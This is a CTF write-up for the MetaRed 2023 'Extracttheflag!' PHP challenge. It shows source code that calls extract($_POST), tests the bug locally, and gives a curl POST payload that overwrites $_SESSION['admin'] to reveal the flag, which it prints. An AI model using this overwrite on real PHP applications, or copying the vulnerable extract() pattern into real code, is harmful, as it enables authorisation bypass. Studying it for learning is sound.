

# MetaRed CTF 2023 - Extracttheflag!

<figure><figcaption></figcaption></figure>


In this challenge we given the source code, let's see it.


```php
 <?php
   if(isset($_GET['src'])){
    highlight_file(__FILE__);
    die();
}

  error_reporting(0 );
  include_once 'flag.php';
  session_start();
  $_SESSION['admin']=false;
  extract($_POST);
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Back to the Future</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css">
    <style>
        body {
            background-color: #f0f0f0;
        }
        .card {
            margin-bottom: 20px;
        }
        .card-img-top {
            width: 100%;
            height: 15vw;
            object-fit: cover;
        }
    </style>
</head>
<body>
    <div class="container py-5">
        <h1 class="text-center mb-5">Back to the Future</h1>
        <div class="row">
            <div class="col-md-4">
                <div class="card">
                    
                    <div class="card-body">
                        <h5 class="card-title">Marty</h5>
                        <p class="card-text">Marty + cartoon</p>
                    </div>
                </div>
            </div>
            <div class="col-md-4">
                <div class="card">
                    
                    <div class="card-body">
                        <h5 class="card-title">Flyer</h5>
                        <p class="card-text">Random string.</p>
                    </div>
                </div>
            </div>
            <div class="col-md-4">
                <div class="card">
                    
                    <div class="card-body">
                        <h5 class="card-title">Image 3</h5>
                        <p class="card-text">Description for image 3.</p>
                    </div>
                </div>
            </div>
        </div>
        <div class="row">
                <div class="card">
                   <h4>Flag</h4>
                      <!-- admin content -->
                      <?php
                      if (isset($_SESSION['admin'])) {
                        if ($_SESSION['admin']) {
                          echo "Your flag: ". $flag;
                          echo "<br>";
                        }
                      }
                      ?>
                </div>
            </div>

    </div>
    <script src="https://code.jquery.com/jquery-3.3.1.slim.min.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/popper.js/1.14.7/umd/popper.min.js"></script>
    <script src="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/js/bootstrap.min.js"></script>
</body>
</html>


```


As we can see, the only suspicious about the code is function `extract` , after i search about it i found it in php documentation [here](https://www.php.net/manual/en/function.extract.php).

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Basically if the function `extract` used without flags for not overwriting, we can make post request and overwriting the global variable, in this case we want to set the session admin to true.

I create replicate php code like on the server.


```php
<?php
  session_start();
  $_SESSION['admin']=false;
  extract($_POST);
  echo "Value: ".$_SESSION['admin'];
  echo "<br>";
  var_dump($_POST);
?>
```


And we can use burpsuite to send post data and the local server will return if we successfully modified the $\_SESSION\['admin'] value.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

The "admin" is wrap with `''` and on local server we got error undefined key "admin", let's try remove the `'`

<figure><figcaption></figcaption></figure>

Now the error is dissapear but we still not overwrite the variable `$_SESSION` then i try to remove the `$` from payload.

<figure><figcaption></figcaption></figure>

We successfully overwrite global variable, now try on server and get the flag.

```sh
curl -X POST https://extracttheflag.ctf.cert.unlp.edu.ar/ --data "_SESSION[admin]=true"
```

<figure><figcaption></figcaption></figure>

Flag: flag{PhP\_Th4nks\_for\_all!}
